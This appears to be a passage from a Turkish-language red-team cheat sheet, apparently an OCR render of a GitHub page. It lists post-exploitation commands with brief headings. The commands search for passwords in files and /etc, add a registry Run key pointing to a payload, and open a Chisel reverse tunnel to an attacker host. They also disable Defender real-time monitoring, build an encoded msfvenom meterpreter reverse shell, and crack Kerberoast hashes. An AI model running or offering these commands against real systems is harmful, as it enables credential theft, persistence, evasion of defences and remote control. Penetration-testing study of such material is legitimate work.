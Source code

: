 ### 6.1. Sensitive Information Discovery
**Amaç:** Hedef sistemde hassas bilgileri aramak.

#### PowerShell:
```powershell
Get-ChildItem -Path C:\ -Recurse -Include *.txt, *.docx, *.xls | Select-String -Pattern "password"
```

#### Linux:
```bash
grep -ri "password" /etc/
```

### 6.2. Persistence Sağlama
Yetki yükselttikten sonra ortamda kalıcı hale gelmek için:

#### Registry persistensi:
```powershell
New-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Malware" -Value "C:\payload.exe"
```

### 6.3. Network Pivoting
#### Chisel veya Plink kullanarak pivoting:
```bash
./chisel server -p 1080 --reverse
./chisel client <attacker_ip>:1080 R:1080:127.0.0.1:3389
```

---

## 7. Defensive Evasion Teknikleri

### 7.1. PowerShell Logging'i Bypass Etme
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

### 7.2. AV/EDR Tespitini Engelleme
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<port> -e x86/shikata_ga_nai -f exe > payload.exe
```

---

## 8. Uygulamalı Senaryolar

### Örnek Senaryo: Kerberoasting

1. `GetUserSPNs.py` ile SPN'leri listeleyin.
2. `hashcat` kullanarak hashleri kırın:
   ```bash
   hashcat -m 13100 -a 0 <hash_file> <wordlist>
   ```

---